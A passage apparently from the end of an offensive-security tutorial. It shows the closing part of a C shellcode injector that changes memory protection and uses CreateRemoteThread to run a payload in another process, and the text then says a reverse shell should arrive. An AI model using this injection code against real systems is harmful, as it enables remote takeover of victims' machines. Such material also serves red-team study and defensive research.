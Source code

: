 ```C
	}
	printf("[+] Successfully changed the memory protection settings to PAGE_EXECUTE_READ\n");
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, sizeof(buf), pAddr, NULL, NULL, NULL);
	if (hThread == NULL)
	{
		printf("[ERROR] Could not create new thread [%d]\n", GetLastError());
		return 102;
	}
	printf("[+] Successfully created a thread, check your listener!\n");
}
```

After execution, if everything went smooth, we should receive the incoming reverse shell:

![Payload execute successfully](shell.png)

## Conclusion
